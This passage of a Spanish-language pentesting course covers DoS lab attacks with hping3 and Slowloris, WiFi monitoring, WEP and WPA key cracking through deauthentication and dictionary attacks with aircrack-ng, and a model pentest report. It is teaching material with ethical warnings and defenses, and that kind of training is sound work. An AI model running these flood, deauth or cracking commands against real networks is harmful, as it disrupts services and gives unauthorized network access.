| **GoldenEye**  | HTTP DoS para pruebas web          | Python        |

---

### 🔧 Instalación de herramientas (en Kali Linux)

#### 🔹 Instalar `hping3`

```bash
sudo apt update
sudo apt install hping3
```

#### 🔹 Instalar `slowloris`

```bash
git clone https://github.com/gkbrk/slowloris.git
cd slowloris
```

#### 🔹 Instalar Metasploit

En Kali viene preinstalado. Si no:

```bash
sudo apt install metasploit-framework
```

---

### ⚙️ Ejemplo práctico completo: Pentesting DoS a servidor Apache

#### 🎯 Objetivo:

Saturar un servidor Apache en un entorno de laboratorio usando `hping3`.

---

#### 🖥️ Escenario del laboratorio

- **Atacante (Kali Linux)** — IP: `192.168.1.10`
- **Víctima (Ubuntu + Apache)** — IP: `192.168.1.20`

---

#### 👣 Paso 1: Preparar la víctima

1. En la máquina víctima, instala Apache:

```bash
sudo apt update
sudo apt install apache2
```

2. Verifica que funciona:

```bash
curl http://localhost
```

3. Anota la IP con:

```bash
ip a
```

---

#### 👣 Paso 2: Ataque con `hping3` (SYN Flood)

En Kali Linux:

```bash
sudo hping3 -S -p 80 --flood 192.168.1.20
```

| Parámetro | Significado                |
| --------- | -------------------------- |
| `-S`      | Bandera SYN (petición TCP) |
| `-p 80`   | Puerto HTTP                |
| `--flood` | Enviar paquetes sin pausa  |

Este comando envía miles de peticiones SYN para **saturar el puerto 80** del servidor Apache.

---

#### 👀 Paso 3: Ver comportamiento en la víctima

En Ubuntu víctima:

```bash
sudo netstat -antp | grep :80
```

Deberías ver muchas conexiones en estado `SYN_RECV` que no se completan (handshake incompleto).

---

### 🧪 Ejemplo alternativo: Ataque con **Slowloris**

1. En Kali:

```bash
git clone https://github.com/gkbrk/slowloris.git
cd slowloris
python3 slowloris.py 192.168.1.20
```

Este script mantiene **muchas conexiones abiertas** al servidor Apache sin cerrarlas, agotando sus recursos.

---

### 🔐 ¿Cómo protegerse de ataques DoS?

| Defensa                    | Explicación                                                |
| -------------------------- | ---------------------------------------------------------- |
| 🔥 Firewall (UFW/iptables) | Bloquear IPs con demasiadas conexiones                     |
| 🛡️ Fail2Ban                | Detecta patrones y bloquea IPs automáticamente             |
| 🚪 Limitar conexiones      | Configurar Apache o NGINX para limitar conexiones/sesiones |
| ☁️ WAF / Cloudflare        | Protección a nivel de red o aplicación                     |

---

### 🧪 Checklist de Pentesting con DoS

✅ Establecer entorno controlado (máquinas virtuales)

✅ Escanear puertos con `nmap`

✅ Seleccionar técnica de DoS (TCP Flood, HTTP Flood, Slowloris, etc.)

✅ Ejecutar ataque

✅ Observar comportamiento (logs, conexiones, rendimiento)

✅ Documentar resultados

✅ Aplicar contramedidas

---

### 📝 Resumen final

| Elemento            | Descripción fácil                               |
| ------------------- | ----------------------------------------------- |
| Qué es              | Ataque para interrumpir servicios               |
| Herramientas usadas | `hping3`, `Slowloris`, `Metasploit`, `LOIC`     |
| Requiere            | Laboratorio controlado (Kali + servidor Apache) |
| Objetivo del test   | Saber si el sistema puede resistir sobrecarga   |
| Defensa             | Firewall, IDS/IPS, límites por IP, WAF          |

---

[🔼](#índice)

---

## **829. Configuración de entorno para auditoría WiFi**

### 🧠 ¿Qué es una auditoría WiFi?

Una **auditoría WiFi** es el proceso de **analizar, evaluar y probar la seguridad de una red inalámbrica (WiFi)** para identificar posibles vulnerabilidades.

---

### 🎯 Objetivo de una auditoría WiFi

- Identificar redes vulnerables (sin cifrado, WEP, WPA mal configurado).
- Capturar paquetes y analizar tráfico.
- Intentar romper claves WiFi (ethical hacking).
- Probar ataques como **evil twin**, **deauth**, **handshake capture**, etc.

---

### ⚙️ ¿Qué necesito para hacer una auditoría WiFi?

#### 🖥️ Requisitos del sistema

| Recurso                   | Recomendado                                                           |
| ------------------------- | --------------------------------------------------------------------- |
| Sistema operativo         | Kali Linux (ideal para pentesting)                                    |
| Adaptador WiFi USB        | Compatible con modo monitor y packet injection (como Alfa AWUS036ACH) |
| Espacio de almacenamiento | 20 GB mínimo                                                          |
| RAM                       | 2 GB mínimo, 4 GB recomendable                                        |

---

### 🧰 Herramientas necesarias

| Herramienta   | Descripción                        |
| ------------- | ---------------------------------- |
| `aircrack-ng` | Suite para auditoría de redes WiFi |
| `reaver`      | Ataques a WPS                      |
| `wash`        | Detección de redes WPS             |
| `Wireshark`   | Análisis de paquetes               |
| `bettercap`   | Ataques MITM en WiFi               |
| `wifite`      | Automatización de auditorías WiFi  |

> Todas estas herramientas vienen **preinstaladas** en **Kali Linux**.

---

### 🧪 PASO A PASO: Configuración del entorno

---

#### 🔹 1. Instalar Kali Linux

- Puedes instalarlo en:

  - Máquina virtual (VirtualBox, VMware)
  - Live USB
  - Instalación nativa

📥 Descarga desde:
[https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)

> **Recomendado**: Si usarás auditoría WiFi real, hazlo desde un Live USB o instalación real, no desde una VM (por temas de compatibilidad del adaptador WiFi USB).

---

#### 🔹 2. Conecta un adaptador WiFi externo (compatible)

Ejemplo de adaptadores recomendados:

- Alfa AWUS036NHA
- Alfa AWUS036ACH
- TP-Link TL-WN722N v1 (¡solo la versión 1!)

Verifica que esté detectado:

```bash
iwconfig
```

---

#### 🔹 3. Poner adaptador en modo monitor

```bash
sudo airmon-ng start wlan0
```

Esto activará el modo monitor y renombrará el adaptador a algo como `wlan0mon`.

---

#### 🔹 4. Ver redes disponibles

```bash
sudo airodump-ng wlan0mon
```

Verás todas las redes WiFi cercanas con información como:

- BSSID (MAC del router)
- Canal (CH)
- Seguridad (WEP/WPA/WPA2)
- Potencia de señal (PWR)

---

### ✅ EJEMPLO COMPLETO: Captura de handshake WPA2

Este es un paso esencial en auditorías WiFi para romper contraseñas WPA/WPA2.

---

#### 🎯 Objetivo

Capturar el **handshake** de una red WPA2 al forzar la reconexión de un cliente.

---

#### 👣 PASO A PASO

##### 1. Iniciar monitoreo

```bash
sudo airmon-ng start wlan0
```

> Quedará como `wlan0mon`

---

##### 2. Escanear redes

```bash
sudo airodump-ng wlan0mon
```

> Identifica una red WPA2 con clientes conectados. Anota:
>
> - BSSID
> - Canal (CH)
> - Nombre de red (ESSID)

---

##### 3. Enfocarse en una sola red

```bash
sudo airodump-ng -c [CANAL] --bssid [BSSID] -w captura wlan0mon
```

Reemplaza:

- `[CANAL]`: Canal del router (ej: 6)
- `[BSSID]`: MAC del router
- `captura`: nombre del archivo de salida

> Ejemplo:

```bash
sudo airodump-ng -c 6 --bssid 84:16:F9:44:9D:60 -w captura wlan0mon
```

---

##### 4. Forzar la desconexión de un cliente

Abre otra terminal:

```bash
sudo aireplay-ng --deauth 5 -a [BSSID] wlan0mon
```

Esto envía 5 paquetes de deautenticación al router, forzando la reconexión del cliente. Durante la reconexión, se captura el **handshake**.

---

##### 5. Verifica captura

```bash
ls captura-01.cap
```

Puedes abrir el archivo `.cap` en Wireshark o intentar crackearlo con `aircrack-ng`.

---

##### 6. Crackeo de la clave (opcional)

Si tienes un diccionario de contraseñas (`rockyou.txt`):

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b [BSSID] captura-01.cap
```

---

### 🧰 Herramienta alternativa: Wifite (automatiza todo)

```bash
sudo wifite
```

- Detecta redes
- Captura handshake
- Intenta romper la contraseña automáticamente

¡Muy útil para principiantes!

---

### 🛡️ Advertencia ética

> Solo puedes hacer esto en:
>
> - Redes propias
> - Laboratorios autorizados
> - Con permiso explícito

Nunca audites redes ajenas sin autorización. Esto puede ser **ilegal**.

---

### 🛠️ Cómo crear un laboratorio WiFi seguro

1. Usa un router viejo o AP virtual
2. Crea una red WiFi WPA2
3. Conecta una máquina virtual a esa red
4. Usa Kali desde otra máquina con adaptador WiFi

---

### 📚 Resumen general

| Elemento            | Descripción                                 |
| ------------------- | ------------------------------------------- |
| SO Recomendado      | Kali Linux                                  |
| Requisito clave     | Adaptador WiFi con modo monitor             |
| Herramientas usadas | `aircrack-ng`, `airodump-ng`, `aireplay-ng` |
| Objetivo            | Capturar handshake, evaluar seguridad       |
| Recomendación ética | Solo en redes propias o con autorización    |

---

[🔼](#índice)

---

## **830. Monitoreo de redes WiFi**

### 🧠 ¿Qué es el monitoreo de redes WiFi?

El **monitoreo de redes WiFi** consiste en **observar y analizar el tráfico inalámbrico** que circula por una red WiFi. Esto incluye:

- Ver dispositivos conectados
- Capturar paquetes de datos (sniffing)
- Identificar redes cercanas
- Detectar intrusos o ataques

---

### 🎯 ¿Para qué sirve?

| Propósito                  | Ejemplo fácil                                       |
| -------------------------- | --------------------------------------------------- |
| Seguridad                  | Detectar si alguien se conectó a tu red sin permiso |
| Diagnóstico de red         | Ver cuántos dispositivos usan tu red                |
| Pentesting / hacking ético | Capturar handshakes, detectar debilidades           |
| Análisis de rendimiento    | Evaluar calidad de la señal, saturación de canales  |

---

### 🧰 Herramientas para monitoreo WiFi

| Herramienta      | Uso principal                            | Sistema        |
| ---------------- | ---------------------------------------- | -------------- |
| **Wireshark**    | Captura y análisis de paquetes           | Linux, Windows |
| **airodump-ng**  | Escaneo y captura de redes WiFi          | Linux (Kali)   |
| **Kismet**       | Detección pasiva de redes y dispositivos | Linux          |
| **tcpdump**      | Captura de tráfico en CLI                | Linux          |
| **Acrylic WiFi** | Escáner visual (solo Windows)            | Windows        |

---

### 🖥️ Requisitos del sistema

- **Sistema operativo**: Linux (Kali recomendado) o Windows (con limitaciones)
- **Adaptador WiFi externo**: que soporte **modo monitor y packet injection**

#### Recomendados:

- Alfa AWUS036ACH
- TP-Link TL-WN722N v1 (solo versión 1)

---

### 🔧 Instalación de herramientas (en Kali Linux)

#### 🐍 1. `aircrack-ng` (incluye `airodump-ng`, `aireplay-ng`, etc.)

Ya viene instalado en Kali, pero puedes instalarlo manualmente:

```bash
sudo apt update
sudo apt install aircrack-ng
```

---

#### 🐬 2. `Wireshark`

```bash
sudo apt install wireshark
```

Para permitir captura sin root:

```bash
sudo dpkg-reconfigure wireshark-common
sudo usermod -aG wireshark $USER
```

---

#### 🛰️ 3. `Kismet`

```bash
sudo apt install kismet
```

---

### 🧪 EJEMPLO COMPLETO: Monitorear tráfico WiFi con `airodump-ng`

---

#### 🔹 OBJETIVO:

Ver todas las redes WiFi disponibles, dispositivos conectados y capturar paquetes para analizarlos luego.

---

#### 🔸 Escenario:

- Kali Linux con adaptador WiFi
- Red WiFi objetivo en el entorno (ej. casa/laboratorio)
- Propósito: monitoreo pasivo (sin intervenir)

---

#### 👣 PASO A PASO:

---

##### 1. Verifica que el adaptador está conectado

```bash
iwconfig
```

Debe mostrar una interfaz como `wlan0`

---

##### 2. Pon el adaptador en modo monitor

```bash
sudo airmon-ng start wlan0
```

Esto crea `wlan0mon`

---

##### 3. Escanea todas las redes disponibles

```bash
sudo airodump-ng wlan0mon
```

Se mostrarán:

- Nombre de las redes (ESSID)
- Canal (CH)
- Seguridad (WEP/WPA/WPA2)
- BSSID (MAC del router)
- Dispositivos conectados (en parte inferior)

---

##### 4. Monitorea una red específica

Supón que el canal es 6 y BSSID es `00:11:22:33:44:55`:

```bash
sudo airodump-ng --bssid 00:11:22:33:44:55 -c 6 -w captura wlan0mon
```

Esto:

- Focaliza en una sola red
- Guarda la captura en un archivo `.cap` llamado `captura.cap`

---

##### 5. Analiza los paquetes con Wireshark

Abre Wireshark:

```bash
wireshark
```

Y abre el archivo:

```bash
File > Open > captura-01.cap
```

Verás cada paquete de red con detalles como:

- Dirección MAC de origen/destino
- Tipo de tráfico (ARP, DNS, HTTP)
- Posibles handshakes si los hubo

---

### 🕵️‍♂️ ¿Qué puedes observar?

- ¿Quién está conectado a una red?
- ¿Se están enviando paquetes ARP sospechosos?
- ¿Hay dispositivos enviando muchos paquetes de broadcast?
- ¿Hay handshakes WPA2? (para pruebas éticas)

---

### 🧠 Tipos de tráfico que se pueden ver

| Protocolo | Qué muestra                                     |
| --------- | ----------------------------------------------- |
| ARP       | Mapeo IP-MAC, útil para detectar ataques        |
| DHCP      | Asignación de IPs, detectar nuevos dispositivos |
| DNS       | Sitios que visitan los usuarios                 |
| ICMP      | Pings y mensajes de red                         |
| HTTP      | Sitios y datos (si no está cifrado)             |

---

### 🛡️ Consejos de seguridad

- **Siempre monitorea redes propias o con permiso**
- **Evita interferir**: solo observa, no ataques si no es un entorno controlado
- **Documenta lo que encuentres**, sobre todo si es para pentesting autorizado

---

### 🧰 Extra: Herramienta visual — Kismet

```bash
sudo kismet
```

- Interfaz web (puerto 2501)
- Muestra redes, dispositivos, ubicación aproximada, etc.

---

### 📘 Resumen final

| Elemento            | Detalle                                                                 |
| ------------------- | ----------------------------------------------------------------------- |
| ¿Qué es?            | Observar el tráfico y dispositivos en una red WiFi                      |
| Herramientas usadas | `airodump-ng`, `Wireshark`, `Kismet`, `tcpdump`                         |
| Requisitos          | Kali Linux + Adaptador WiFi con modo monitor                            |
| Resultado           | Saber quién se conecta, qué tipo de tráfico circula, posibles anomalías |
| Recomendación       | No hacer ataques sin permiso, usar laboratorios controlados             |

---

[🔼](#índice)

---

## **831. Ataque a WEP**

### 🧠 ¿Qué es WEP?

**WEP (Wired Equivalent Privacy)** fue uno de los primeros protocolos de seguridad para redes WiFi. Su objetivo era ofrecer un nivel de seguridad comparable al de una red cableada.

🔒 Usa una clave precompartida (como una contraseña) y un algoritmo de cifrado RC4.

---

### ❌ ¿Por qué es inseguro?

WEP es vulnerable porque:

- Usa claves de cifrado muy **predecibles**
- El vector de inicialización (IV) es **demasiado corto (24 bits)** y se repite fácilmente
- Las herramientas actuales pueden **capturar suficientes paquetes** y **romper la clave** en minutos

---

### 🛠️ Herramientas necesarias

Necesitarás un entorno como:

- 💻 **Kali Linux**
- 📡 Un **adaptador WiFi USB** compatible con **modo monitor e inyección de paquetes**

  - Ejemplo: **Alfa AWUS036NHA**

Y las siguientes herramientas (incluidas en Kali):

| Herramienta   | Para qué sirve          |
| ------------- | ----------------------- |
| `airmon-ng`   | Activar modo monitor    |
| `airodump-ng` | Capturar paquetes       |
| `aireplay-ng` | Forzar tráfico a la red |
| `aircrack-ng` | Romper la clave WEP     |

---

### 🔧 Instalación de herramientas (si no usas Kali)

En Debian/Ubuntu:

```bash
sudo apt update
sudo apt install aircrack-ng
```

---

### 🧪 Ejemplo completo: Ataque a una red WEP

---

#### 🎯 Objetivo:

Capturar suficiente tráfico en una red WiFi protegida con WEP y **obtener la clave**.

---

#### ⚠️ IMPORTANTE:

> Solo debes hacerlo en una **red de pruebas o laboratorio**. Nunca ataques redes sin permiso.

---

#### 🌐 Escenario del laboratorio

- Red WEP: `Laboratorio-WEP`
- BSSID: `AA:BB:CC:DD:EE:FF`
- Canal: `6`
- Kali Linux como atacante
- Adaptador WiFi externo

---

### 👣 PASO A PASO:

---

#### 1. Verifica tu interfaz WiFi

```bash
iwconfig
```

Debe mostrar algo como `wlan0`

---

#### 2. Pon la tarjeta en modo monitor

```bash
sudo airmon-ng start wlan0
```

Esto creará `wlan0mon`

---

#### 3. Escanea las redes WiFi

```bash
sudo airodump-ng wlan0mon
```

Busca una red que esté cifrada con WEP.

Ejemplo de resultado:

```
BSSID              PWR  Beacons  #Data  CH  MB   ENC  ESSID
AA:BB:CC:DD:EE:FF  -40     122     15    6   54e  WEP  Laboratorio-WEP
```

---

#### 4. Captura paquetes de la red WEP

```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep_lab wlan0mon
```

Esto:

- Escucha solo en el canal 6
- Guarda paquetes en el archivo `wep_lab.cap`

---

#### 5. Genera tráfico (ataque ARP Replay)

> A mayor tráfico = más IVs = más rápido se rompe la clave.

Primero, en otra terminal, ejecuta:

```bash
sudo aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0mon
```

- `-3` → ataque ARP replay (repite paquetes)
- `-h` → dirección MAC de tu adaptador (puedes ver con `ifconfig`)
- Necesitas al menos **un cliente** conectado a la red WEP

---

#### 6. Espera a capturar suficientes IVs (mínimo 10,000)

Airodump-ng mostrará algo así:

```
#Data: 12000
```

---

#### 7. Rompe la clave WEP

Una vez capturados suficientes paquetes, corre:

```bash
aircrack-ng wep_lab-01.cap
```

Verás algo como:

```
KEY FOUND! [ A1:B2:C3:D4:E5 ]
```

Y listo: tienes la clave WEP en texto hexadecimal (que puedes usar para conectarte).

---

### 🛡️ Cómo defenderse

- **Nunca uses WEP**. Es extremadamente inseguro.
- Usa **WPA2 o WPA3**
- Desactiva el WiFi si no lo necesitas
- Cambia la contraseña del router y actualiza el firmware

---

### 📝 RESUMEN FINAL

| Elemento              | Descripción sencilla                                     |
| --------------------- | -------------------------------------------------------- |
| Qué es WEP            | Un protocolo antiguo de seguridad WiFi                   |
| Por qué es vulnerable | Su cifrado es débil y se puede romper fácil              |
| Qué se necesita       | Kali Linux + adaptador WiFi con modo monitor             |
| Herramientas usadas   | `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng` |
| Resultado             | Se obtiene la clave en pocos minutos                     |

---

[🔼](#índice)

---

## **832. Ataque a WPA**

### 🧠 ¿Qué es WPA/WPA2?

**WPA (Wi-Fi Protected Access)** y **WPA2** son protocolos de seguridad para redes WiFi que reemplazaron al inseguro **WEP**. Usan un cifrado más fuerte (TKIP y AES) y requieren una contraseña compartida.

🛡️ Son mucho más seguros que WEP, pero tienen **una debilidad clave**: si alguien captura el _handshake_ (apretón de manos) de conexión, **puede intentar descifrar la contraseña por fuerza bruta o diccionario**.

---

### ❌ ¿Por qué es vulnerable?

No es el protocolo en sí, sino:

- El uso de **contraseñas débiles o comunes**
- El _handshake_ se puede capturar fácilmente
- Luego se puede aplicar un **ataque de diccionario o fuerza bruta**

---

### 🛠️ Herramientas necesarias

#### Sistema:

- Kali Linux (recomendado)
- Adaptador WiFi compatible con modo **monitor e inyección de paquetes**

#### Herramientas:

| Herramienta   | Función                                     |
| ------------- | ------------------------------------------- |
| `airmon-ng`   | Poner adaptador en modo monitor             |
| `airodump-ng` | Capturar tráfico WiFi                       |
| `aireplay-ng` | Desautenticar clientes (capturar handshake) |
| `aircrack-ng` | Descifrar la clave WPA con diccionario      |

---

### 📥 Instalación (si no tienes Kali Linux)

```bash
sudo apt update
sudo apt install aircrack-ng
```

En Kali ya viene preinstalado ✅

---

### 🧪 EJEMPLO COMPLETO: Ataque WPA/WPA2

---

#### 🔹 Escenario:

- Red: `Red-WPA`
- BSSID: `AA:BB:CC:DD:EE:FF`
- Canal: `6`
- Kali Linux + adaptador WiFi
- Contraseña de la red es débil (ejemplo: `contraseña123`)
- Diccionario: archivo `.txt` con miles de contraseñas comunes

---

#### ⚠️ ¡IMPORTANTE!

> Este procedimiento **solo se debe realizar en redes de prueba o con autorización**. Atacar redes ajenas es ilegal.

---

### 👣 PASO A PASO:

---

#### 1. Verifica tu interfaz WiFi

```bash
iwconfig
```

Verifica que tienes algo como `wlan0`.

---

#### 2. Pon la tarjeta en modo monitor

```bash
sudo airmon-ng start wlan0
```

Esto crea `wlan0mon`.

---

#### 3. Escanea redes WiFi

```bash
sudo airodump-ng wlan0mon
```

Busca tu red objetivo, con tipo de cifrado **WPA/WPA2**.

Ejemplo:

```
BSSID              PWR  CH  ENC   ESSID
AA:BB:CC:DD:EE:FF  -42   6  WPA2  Red-WPA
```

---

#### 4. Captura el handshake de la red

Enfoca a esa red con:

```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w captura wlan0mon
```

Esto:

- Monitorea solo ese canal/red
- Guarda el archivo de captura: `captura.cap`

---

#### 5. Fuerza la reconexión (ataque de desautenticación)

Esto es para capturar el _handshake_ cuando un cliente se reconecta:

```bash
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon
```

- `-0 5` = envía 5 paquetes de desautenticación
- Cuando un cliente vuelve a conectarse, se captura el handshake automáticamente

🟢 Si lo logras, verás en `airodump-ng` una línea que dice:

```
WPA handshake: AA:BB:CC:DD:EE:FF
```

---

#### 6. Usar diccionario para romper la clave

Usa `aircrack-ng` con un archivo de diccionario `.txt`:

```bash
aircrack-ng -w diccionario.txt captura-01.cap
```

📘 Puedes usar un diccionario como:

- `rockyou.txt` (viene en Kali)
- Tu propio archivo `.txt` con posibles claves

---

#### 7. Resultado exitoso

Si encuentra la clave:

```
KEY FOUND! [ contraseña123 ]
```

Ya puedes conectarte a la red.

---

### 🧠 ¿Dónde conseguir diccionarios?

En Kali:

```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
```

Luego úsalo:

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt captura-01.cap
```

---

### 🛡️ ¿Cómo protegerse?

| Recomendación               | Descripción                                 |
| --------------------------- | ------------------------------------------- |
| Usa WPA3 o al menos WPA2    | Más seguro que WEP                          |
| Contraseña fuerte           | No uses "123456", "password", etc.          |
| Oculta el SSID              | Aunque no evita ataques, reduce visibilidad |
| Limita dispositivos por MAC | Filtro de acceso                            |

---

### 📘 RESUMEN FINAL

| Elemento       | Detalle                                            |
| -------------- | -------------------------------------------------- |
| ¿Qué atacamos? | Red WiFi WPA/WPA2 con contraseña débil             |
| Herramientas   | aircrack-ng suite (airodump-ng, aireplay-ng, etc.) |
| Método         | Captura handshake + ataque de diccionario          |
| Resultado      | Obtener la clave si está en el diccionario         |

---

[🔼](#índice)

---

## **833. Elaboración de informe**

### 📄 ¿Qué es un informe de pentesting?

Es un **documento técnico y ejecutivo** que presenta:

- Las **vulnerabilidades** encontradas en un sistema/red
- La **metodología** utilizada
- El **impacto** que podría tener cada vulnerabilidad
- Las **recomendaciones** para solucionarlas

Este informe se entrega a los **responsables de seguridad o gerentes** de una empresa para que puedan tomar decisiones informadas.

---

### 📋 Estructura básica de un informe de pentesting

| Sección                       | Contenido                                                              |
| ----------------------------- | ---------------------------------------------------------------------- |
| 1. Portada                    | Nombre del informe, empresa, fecha, autor                              |
| 2. Resumen ejecutivo          | Explicación clara para gerentes, no técnica                            |
| 3. Alcance y objetivos        | Qué se probó, qué quedó fuera, metas                                   |
| 4. Metodología                | Herramientas, fases, tipo de prueba (caja negra, blanca, etc.)         |
| 5. Hallazgos/vulnerabilidades | Lo que se descubrió, pruebas realizadas, capturas de pantalla          |
| 6. Evaluación de riesgos      | Criticidad: alta, media, baja                                          |
| 7. Recomendaciones            | Cómo arreglar o mitigar cada problema                                  |
| 8. Conclusión                 | Resumen final de estado de seguridad                                   |
| 9. Anexos                     | Detalles técnicos, logs, escaneos, reportes automáticos (Nmap, Nessus) |

---

### 🛠️ Herramientas para crear informes

| Herramienta        | Tipo              | Uso principal                        |
| ------------------ | ----------------- | ------------------------------------ |
| LibreOffice / Word | Documento .docx   | Redacción del informe                |
| LaTeX              | Documento PDF     | Informes profesionales automatizados |
| CherryTree         | Notas de pruebas  | Toma de notas organizada             |
| Dradis             | Plataforma        | Colaboración y reporte centralizado  |
| Markdown + Pandoc  | Documento técnico | Rápido y multiplataforma             |

---

### ✅ ¿Cómo instalar herramientas para informes?

#### 1. LibreOffice (en Kali Linux o Debian)

```bash
sudo apt update
sudo apt install libreoffice
```

#### 2. CherryTree

```bash
sudo apt install cherrytree
```

CherryTree es muy útil para tomar notas durante un pentest y luego copiar al informe final.

---

### 📚 Ejemplo completo de informe (modelo básico)

---

#### 🧾 Portada

**Informe de Pentesting Interno**

Cliente: Empresa XYZ
Autor: Juan Pérez
Fecha: 25 de julio de 2025

---

#### 📌 Resumen ejecutivo

Durante la prueba de penetración interna realizada del 22 al 24 de julio de 2025, se identificaron **varias vulnerabilidades críticas** que podrían comprometer la infraestructura interna de la empresa. El objetivo de este informe es detallar los hallazgos y recomendar acciones correctivas.

---

#### 🎯 Alcance y objetivos

- **Alcance:** Red local 192.168.1.0/24, servidores de archivos y sitio web interno.
- **Exclusiones:** Equipos personales de empleados, red WiFi invitada.
- **Objetivo:** Evaluar la seguridad de la red interna simulando un atacante con acceso físico.

---

#### ⚙️ Metodología

Se siguieron las fases del pentesting:

1. **Reconocimiento:** Escaneo con Nmap, identificación de hosts y puertos abiertos
2. **Enumeración:** Detección de versiones de servicios
3. **Explotación:** Intento de acceso no autorizado a servicios vulnerables
4. **Post-explotación:** Recolección de información sensible

Herramientas utilizadas: `nmap`, `Nikto`, `Metasploit`, `hydra`, `enum4linux`.

---

#### 🚨 Hallazgos de seguridad

##### 1. Servidor SMB con acceso anónimo habilitado

- **IP:** 192.168.1.10
- **Descripción:** Se permite la conexión sin usuario/contraseña
- **Prueba:** Se accedió con `smbclient -L //192.168.1.10 -N`
- **Impacto:** Permite a un atacante obtener información sensible
- **Captura de pantalla**

##### 2. Contraseñas débiles en servidor SSH

- **IP:** 192.168.1.15
- **Usuario:** admin
- **Contraseña:** 123456
- **Herramienta usada:** `hydra`

---

#### 📊 Evaluación de riesgos

| Vulnerabilidad          | Impacto | Probabilidad | Riesgo  |
| ----------------------- | ------- | ------------ | ------- |
| Acceso anónimo a SMB    | Alto    | Alta         | Crítico |
| Contraseña débil en SSH | Alto    | Alta         | Crítico |

---

#### 🛡️ Recomendaciones

- **Desactivar el acceso anónimo en SMB**
- **Forzar contraseñas seguras**
- **Implementar políticas de bloqueo de cuentas tras intentos fallidos**

---

#### ✅ Conclusión

La red interna presenta vulnerabilidades graves que podrían comprometer activos críticos. Se recomienda aplicar las correcciones indicadas y repetir la auditoría en un plazo máximo de 90 días.

---

#### 📎 Anexos

- Salida de escaneo Nmap
- Capturas de pantalla
- Reporte HTML de Nikto

---

### ✨ Plantillas de informe (opcional)

Si lo deseas, puedo generarte:

- Una plantilla `.docx` editable
- Un informe automático con Pandoc y Markdown
- Una versión en LaTeX con gráficos

---

### 🧠 Consejos finales

- Usa lenguaje claro y profesional
- Evita jerga técnica en el resumen ejecutivo
- Incluye evidencia: capturas, comandos, logs
- Asigna prioridades (crítico, alto, medio, bajo)
- Propón soluciones concretas

---

[🔼](#índice)

---

| **Inicio**         | **atrás 10**                                  | **Siguiente 12**                            |
| ------------------ | --------------------------------------------- | ------------------------------------------- |
| [🏠](../README.md) | [⏪](./7_10_Seguridad_de_Redes_On_Premise.md) | [⏩](./7_12_Fundamentos_de_Criptografia.md) |
